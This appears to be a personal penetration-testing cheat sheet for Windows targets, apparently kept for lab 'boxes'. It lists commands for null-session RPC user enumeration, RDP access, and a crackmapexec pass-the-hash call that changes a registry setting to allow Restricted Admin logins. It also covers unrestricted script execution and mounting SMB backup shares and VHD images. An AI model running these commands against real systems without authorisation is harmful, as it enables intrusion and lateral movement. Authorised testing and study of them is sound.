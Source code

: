 ```yaml
---
description: Various tools and commands I've needed during solving boxes and or pentesting.
---
```


# Windows

#### RPC (Remote Procedure Call)

```bash
# Connect
rpcclient -U "" -N 10.10.10.161

# Enumerate users
rpcclient $> enumdomusers

# Enumberate groups
enumdomgroups

# Check group members
querygroup 0x200

# Check user account
queryuser 0x1f4 
```

#### Check rights file

```powershell
icacls C:\Windows\System32\cmd.exe
```

#### RDP

```powershell
# Connect to RDP
xfreerdp /u:devtest /p:password /v:172.16.139.175 /drive:linux,/home/user /dynamic-resolution

# Enable RDP adding a new registry key
crackmapexec smb 192.168.0.1 -u "username" -H "NT_HASH" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Enable running scripts

```powershell
Set-ExecutionPolicy Unrestricted
```

#### Check rights file

```powershell
icacls C:\Windows\System32\cmd.exe
```

Mounting SMB share in linux

```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```

Mounting .vdh file

```bash
# Install guestmount
apt install libguestfs-tools

# Mount the vhd file
guestmount --add /mnt/WindowsImageBackup/test/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

###
